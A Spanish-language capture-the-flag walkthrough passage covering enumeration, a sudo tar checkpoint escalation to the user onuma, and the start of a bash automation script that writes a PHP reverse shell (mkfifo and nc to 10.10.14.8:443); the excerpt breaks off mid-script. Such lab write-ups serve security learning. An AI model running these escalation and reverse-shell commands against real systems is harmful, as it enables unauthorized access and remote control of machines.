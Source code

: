 ### Analizamos la maquina {-}

```bash
cd /home
ls
cd /onuma

id
sudo -l
#Output

(onuma) NOPASSWD: /bin/tar
```

Aqui vemos que hay un usuario onuma en el directorio home pero no tenemos capacidad de acceso. Tambien vemos que podemos usar 
el comando tar como el usuario **onuma** sin proporcionar contraseña.

### User Pivoting al usuario onuma {-}

Como es posible utilizar el comando tar como el usuario onuma sin propocionar contraseña, vamos a la pagina [GTFOBINS](https://gtfobins.github.io/) y buscamos 
una manera de entablarnos una shell como el usuario onuma

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
whoami
#Output

onuma
```

Aqui ya podemos ver la flag.

### Automatizamos el acceso en bash {-}

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo ...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# ./exploit.sh -u www-data/onuma

function helpPanel(){
    echo -e "\n[!] Uso: $0 -u www-data/onuma\n"
    exit 1
}

function makeWWWDataFile(){
cat << EOF > wp-load.php
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
EOF
}

function makeOnumaFile(){
cat << EOF > wp-load.php
<?php
```
